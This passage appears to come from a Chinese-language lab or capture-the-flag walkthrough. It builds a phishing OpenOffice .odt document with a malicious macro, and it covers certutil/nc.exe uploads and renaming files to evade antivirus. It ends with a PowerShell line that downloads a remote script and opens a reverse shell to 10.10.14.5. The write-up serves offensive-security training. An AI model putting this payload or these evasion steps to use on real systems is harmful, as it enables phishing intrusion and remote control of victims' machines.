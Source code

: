 写入利用 certutil 进行上传 nc.exe 进行提权... 这里本地要下载好 nc.exe，打开 80 服务，nc 开启 443 即可...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOSibTqpjtp1NqHDVUkQXthZ79sREkHQcTTP0O7jX3HsqWrKOSVianQDdDsHUjOYfjDdGKKvLMVQXug/640?wx_fmt=png)

左上角保存或者 ctrl+s 即可.. 保存在自己目录下...

好了，这里已经写好了一个钓鱼邮件的恶意程序，开始发送

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOSibTqpjtp1NqHDVUkQXthZtAHxoa8nkDia4XZNt4ukcgQicLdmwS88MchOaQjo7ibZLgibiaibO3OdgRPg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOSibTqpjtp1NqHDVUkQXthZIvicN0weTpcNbsicgz3TDt6NcvWefYHkXbxIfeT23k6TjxVeBhEGtaAQ/640?wx_fmt=png)

上传后等待即可提权...

解释：为了逃避防病毒程序的检测，所以使用 Shell 来对合法的网络连接的二进制文件. exe、.asp1 等进行后门操作... 将宏内容压缩后，以. odt 扩展名重命名，并生成一个 Web 服务器来提供恶意的二进制文件...

![](https://mmbiz.qpic.cn/mmbiz_gif/91VlKjK1jgxkKJILyJj2LWD0PYmzSuXEq9Fic10RiaJK5dicRJKowHM8vaibCbeoaC3hW64rtu7FrV8yJx7MkRvszw/640?wx_fmt=gif)

方法 2：

![](https://mmbiz.qpic.cn/mmbiz_gif/sh14FEsstk64OiaHia2vXhZV1ckaMlfcgPj9vItaVmmUx5waCVlhrA1UaJR1DHpkmAdw2jESWs8tSFkjllJqibYsA/640?wx_fmt=gif)

利用 MSF 里的 openoffice 的 Exploit 进行生成 obt 文件...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOSibTqpjtp1NqHDVUkQXthZs0KSxDfOaPAe1E5mDlhqDyVA3YSTeGCubI4gp4QOPx83yK4YoxviaNg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOSibTqpjtp1NqHDVUkQXthZsXjjIDbNAaDO0YFjzXnIvuQlkiaRWCHBhhSdPZxtmzemaWVpS7Dl3Pg/640?wx_fmt=png)

这里填错了，我的本地 IP 是 10.10.14.5...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOSibTqpjtp1NqHDVUkQXthZHM5gfGqvBe5H3ia3aFjNtRctNZgPPtKWKZUUgCurMCPElnAj8JYkbBA/640?wx_fmt=png)

成功生成了钓鱼邮件的恶意程序...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOSibTqpjtp1NqHDVUkQXthZ8o8MelxK5rJUSCBCMOTBVdibiamj6wMWY15WI096HpTVGibZj3dE7B3EQ/640?wx_fmt=png)

放到本地后重命名为 zip 文件... 然后打开即可...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOSibTqpjtp1NqHDVUkQXthZxA8hmcgSb8NwiciadBVIPDw82xKqa9dKU894DrnoGXzmPb8QXMJWZFEw/640?wx_fmt=png)

或者用 openoffice 进行打开，打开第一次会报错，记得修改这里....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOSibTqpjtp1NqHDVUkQXthZHichuZdmvEibS0exmI3ficDAkBHx5P96dw2QMPjsraGe9QoVviawP7Dgiag/640?wx_fmt=png)

用文本打开内容是这样的... 这里需要修改下 powershell 即可...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOSibTqpjtp1NqHDVUkQXthZeRdfbhibHSwlI3NTrEcKBUtstKdxBa2c3F4tIWspUJNnplJtG70usRQ/640?wx_fmt=png)

```
powershell.exe -version 2 IEX (New-Object System.Net.Webclient).DownloadString('http://10.10.14.5/dayushell.ps1');dayushell -c 10.10.14.5 -p 1234 -e cmd;
```

修改完后将 zip 改成 odt 即可...
